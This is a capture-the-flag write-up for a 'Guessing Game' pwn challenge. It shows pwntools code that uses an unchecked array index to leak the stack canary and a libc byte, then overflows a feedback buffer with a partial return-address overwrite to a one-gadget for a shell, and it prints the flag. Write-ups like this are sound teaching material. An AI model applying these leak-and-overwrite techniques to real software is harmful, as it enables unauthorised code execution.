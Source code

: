 # The Guessing Game
## Pwn

# Solution
Upon starting, the program initialises 8 bytes with random numbers from `rand()`. We are then asked to provide an index (0-7) and a guess (0-255) for the number at that index. Once we have 8 correct guesses, the loop ends and we are asked to provide feedback.

## Bug
The index of our guess isn't checked, meaning that we can get a form of OOB read. By doing a binary search between 0 and 255, we can guess at the value of the byte until it is correct, effectively leaking a value. The 'feedback' input has a standard buffer overflow bug.
The challenge is made more complex by the introduction of a stack canary.

We can first write a short routine in order to find the value of a byte.

```python3
e = ELF("./guess")
r = process(e.path)

def check_value(index, value):
    r.recvuntil(b"? ", timeout=1)
    r.sendline(str(index).encode())
    r.recvuntil(b"guess: ", timeout=1)
    r.sendline(str(value).encode())
    res = r.recvline().decode()
    if "too low" in res:
        return -1
    elif "high" in res:
        return 1
    else:
        return True


def find_value(index):
    possible = list(range(255))
    while True:
        pos = len(possible)//2
        test = check_value(index, possible[pos])
        if test is True:
            return possible[pos]
        elif test == -1:
            possible = possible[pos:]
        elif test == 1:
            possible = possible[:pos]

```

Our first job is to discover the canary. We can use the fact that the canary always begins with a null byte to our advantage -

```python3
    canary = b"\x00"
    while len(canary) < 8:
        canary = canary + chr(find_value(0x20 + len(canary))).encode('latin1')
```

This uses up 7 of our 8 reads, leaving us with only 1 byte of OOB read to leak the libc base, and overwrite a return address with a one-gadget ('target'). However, with careful arrangement, this is all we need.
1. The most significant 5 bytes of the libc address and 'target' will be the same
2. The 3rd least significant byte will have a constant offset from the target - as long as ASLR do not align the addresses such that the difference 'overflows' into the 4th LSB
3. The second least significant byte will its *lower* nibble unaffecte by ASLR
4. The least significant byte is completely unaffected by ASLR
Due to this, we can perform a 3 byte overwrite of the address, and gain code execution with a 4-bit brute - a 1/16 chance of success, which is reasonably high.

First, we will leak the 3rd LSB of the return address - this is the address of `ret` in `__libc_start_main`, known as `__libc_start_main_ret`

```python3
    libc_byte = find_value(0x20 + 8 + 8 + 2)

    offset = target - (l.sym['__libc_start_main'] + lsmr)
    byte_offset = (offset >> 16) & 0xff
    if (libc_byte + byte_offset) > 0xff:
        with context.local(log_level = 'error'):
            r.close()
        del r
        exit()
```
`lsmr` is the offset of 'ret' within `__libc_start_main` - 234 on the remote instance.
We can then construct our overwrite.
```python3
buffer = b"A" * 0x18 # Padding to reach end of buffer
buffer += canary     # Stack canary
buffer += b"B" * 8   # Saved RBP
buffer += chr(target & 0xff).encode('latin1')                   # LSB - known
buffer += chr(((target >> 8) & 0xff) | 0x80).encode('latin1')   # 2nd LSB - low nibble known, guess upper half
buffer += chr(libc_byte + byte_offset).encode('latin1')         # 3rd LSB - offset from leaked byte known
r.send(buffer)
r.recv()
```
The 0x80 here represents our guess - any value should result in comparable success rates.
Using `0xe6c7e` as `target`, a one-gadget on the remote libc, after a short number of tries we will pop a shell and get the flag:
`rarctf{4nd_th3y_s41d_gu3ss1ng_1snt_fun!!_c9cbd665}`
